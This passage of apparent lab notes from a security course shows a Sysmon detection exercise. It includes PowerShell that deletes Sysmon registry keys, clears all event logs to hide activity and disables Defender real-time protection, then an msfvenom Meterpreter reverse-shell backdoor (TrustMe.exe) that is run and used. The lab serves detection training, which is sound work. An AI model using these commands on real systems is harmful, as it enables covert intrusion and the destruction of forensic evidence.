 ```PowerShell
    "HKLM:\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-Microsoft-Windows-Sysmon-Operational"
)

foreach ( $i in $items ) {
    $error.Clear();
    Remove-Item -Path $i -Force -Recurse -ErrorAction SilentlyContinue
    If($error) {
        $result = $error.Exception.Message
    } Else {
        $result = "O : $i"
    }
    Write-Output "$result".ToString() | Out-File -Filepath $log_file -Append -NoClobber -Encoding UTF8
}
```

Note that the output is written to the file `sysmon-uninstall.log` in the directory where you ran the script (e.g., `C:\Users\adhd`)

##### Clear the logs
Once done, we can clear the logs to act as if nothing has ever happened on this machine, not even once.

```PowerShell
Get-EventLog -List | ForEach-Object { Clear-EventLog -LogName $_.Log }

```

##### Stop Windows Defender
We won't see much in the logs if we can't run the malware.
`Set-MpPreference -DisableRealtimeMonitoring $true`

> If you see a warning for **A general error occurred**, this is **good**.

#### 2. Create and run the malware
Now that we have a "clean" machine, let's get it dirty. Following John's guide, we create a simple backdoor with [[Tool Deep-Dives/Metasploit/Meterpreter\|Meterpreter]]^[Which I'd heard people call "Meter Peter," but their eyes are just getting lost in it. It's short for "Metasploit Interpreter" according to [Wikipedia](https://en.wikipedia.org/wiki/Metasploit#Payloads).]

We've done this on a few labs, so I'll just summarize here.
1. Get Ubuntu IP address
	1. `172.30.99.174`
2. Create and deploy the TrustMe.exe malware
	1. `sudo msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=172.30.99.174 lport=4444 -f exe -o /tmp/TrustMe.exe`
	2. `cd /tmp`
	3. `sudo ls -l TrustMe.exe`
		1. This is basically just to check and verify the file's existence.
	4. `sudo cp ./TrustMe.exe /mnt/c/tools`
3. Start the "remote" handler
	1. New Ubuntu terminal
	2. ![BHIS-SOCC-lab-Sysmon-1.png](/img/user/Attachments/BHIS-SOCC-lab-Sysmon-1.png)
		1. Commands are highlighted in blue
4. Run TrustMe.exe
	1. Open an admin Command terminal, and run `\tools\TrustMe.exe`
	2. You should see Meterpreter complete the connection
	3. ![BHIS-SOCC-lab-Sysmon-2.png](/img/user/Attachments/BHIS-SOCC-lab-Sysmon-2.png)
	4. At this point, we could run some pretty sick commands, but we can confirm that we're connected to the windows host with a couple commands
		1. `getuid` - Shows the server name and the username
		2. `ps` - Shows all the processes running on the target machine
			1. And these are distinctly Windows processes, not Linux, despite running from the Ubuntu terminal, so we know we have access
